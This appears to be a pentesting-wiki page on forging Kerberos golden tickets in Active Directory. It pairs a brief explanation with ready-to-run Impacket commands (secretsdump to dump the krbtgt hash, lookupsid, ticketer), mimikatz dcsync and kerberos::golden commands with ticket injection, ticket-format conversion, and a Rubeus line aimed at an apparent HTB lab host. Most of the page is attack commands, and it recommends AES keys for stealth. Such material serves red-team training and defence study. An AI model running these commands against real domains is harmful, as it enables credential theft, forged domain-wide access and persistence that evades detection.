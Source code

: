 # Golden Tickets

> [!THEORY]
Silver and golden tickets are forged Kerberos tickets that can be used with pass-the-ticket to access services in an Active Directory domain.
>
>
**Golden ticket**: The NT hash (or AES key) of the special account `krbtgt` can be used to forge a special TGT (Ticket Granting Ticket) that can later be used with pass-the-ticket to access any resource within the AD domain.
>
In order to craft a golden ticket, testers need to find the krbtgt's NT hash or AES key (128 or 256 bits). In most cases, this can only be achieved with domain admin privileges. Because of this, golden tickets only allow lateral movement and not privilege escalation. 
>
Microsoft uses AES 256 bits by default. Using this encryption algorithm will be stealthier.
>
There are [Impacket](https://github.com/SecureAuthCorp/impacket) scripts for each step of a golden ticket creation : retrieving the `krbtgt`, retrieving the domain SID, creating the golden ticket.

```shell
# Retrieve the krbtgt NT hash or AES key
secretsdump.py -just-dc-user krbtgt -hashes 'LMhash:NThash' 'DOMAIN/DomainAdmin@DomainController'

# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# Create the golden ticket (with an NT hash)
ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an AES 128/256bits key)
ticketer.py -aesKey $krbtgtAESkey -domain-sid $domainSID -domain $DOMAIN randomuser
```

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) can be used.
```shell
# Retrieve the krbtgt NT hash or AES keys
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:randomuser /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:randomuser /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:randomuser /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically inject the ticket. 

#### Convert ticket to UNIX <-> Windows format
To convert tickets between UNIX/Windows format with [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py).
```shell
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```

[[impacket]]
```
./Rubeus.exe asktgs /ticket:ticket.kirbi /service:CIFS/DC01.GHOST.HTB /dc:GHOST.HTB /ptt /outfile:ticket.kirbi
```